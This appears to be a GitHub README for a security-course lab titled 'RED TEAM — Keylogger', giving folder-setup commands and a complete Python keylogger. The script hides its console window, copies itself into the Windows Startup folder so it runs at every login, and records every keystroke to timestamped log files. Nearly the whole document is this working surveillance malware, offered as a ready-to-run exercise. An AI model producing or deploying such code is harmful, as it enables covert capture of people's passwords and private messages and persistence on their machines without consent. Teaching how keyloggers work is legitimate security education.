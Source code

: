 ## Secplus
#### Step 1: Make a new folder (in downloads folder) and name it SecLab

RED TEAM — Keylogger
```bash
mkdir Keylogger
cd Keylogger
```
#### Create keylogger.py:

```bash
import os
import sys
import shutil
import ctypes
import logging
from datetime import datetime
from pynput import keyboard

# === Hide console window (when .exe only) ===
try:
    ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0)
except:
    pass  # avoid crash on non-Windows or during testing

# === Auto-run on startup (only works when compiled to .exe) ===
def autorun():
    try:
        startup = os.path.join(os.getenv('APPDATA'), 'Microsoft\\Windows\\Start Menu\\Programs\\Startup')
        exe_name = "keylogger.exe"
        dest_path = os.path.join(startup, exe_name)

        if not os.path.exists(dest_path):
            shutil.copyfile(sys.executable, dest_path)
    except:
        pass  # silently skip if not .exe or permission denied

autorun()

# === Setup logging ===
os.makedirs("logs", exist_ok=True)
log_file = f"logs/keylog_{datetime.now().strftime('%Y-%m-%d_%H-%M-%S')}.txt"
logging.basicConfig(filename=log_file, level=logging.DEBUG, format='%(asctime)s: %(message)s')

# === Define keypress behavior ===
def on_press(key):
    try:
        logging.info(f"Key: {key.char}")
    except AttributeError:
        logging.info(f"Special: {key}")

# === Start listening in background ===
listener = keyboard.Listener(on_press=on_press)
listener.start()

# === Keep script running ===
print(f"[Keylogger running...] Logs will be saved to: {log_file}")
input("Press ENTER here to stop logging...\n")

# === Stop listener gracefully ===
listener.stop()
```